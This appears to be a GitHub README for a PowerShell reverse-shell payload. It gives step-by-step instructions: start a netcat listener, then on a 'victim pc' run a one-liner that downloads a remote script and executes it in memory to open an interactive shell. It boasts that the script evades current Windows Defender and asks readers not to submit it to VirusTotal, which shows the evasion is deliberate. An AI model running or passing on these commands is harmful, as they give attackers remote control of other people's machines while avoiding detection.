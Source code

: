<img src="https://img.shields.io/badge/PowerShell-%E2%89%A5%20v3.0-blue">

# INSTRUCTIONS : - 
<br>
1.) Run `[nc -nlvp 'port']` on your terminal to start up a listener.
<br>
2.) Open powershell on the victim pc and type <br> 
IEX (IWR 'https://raw.githubusercontent.com/anonymous300502/powershell_payload/main/test.ps1' -UseBasicParsing) | Invoke-DopeShell "IP" "PORT" 

## This will spawn a interactive shell with the target pc and run in memory to evade AV 
### Currently undetectable by the latest updated version of windows defender on Win 11 ( last tested on 17:00 IST June 13th 2024) 

Please dont upload the script on virus total :) 
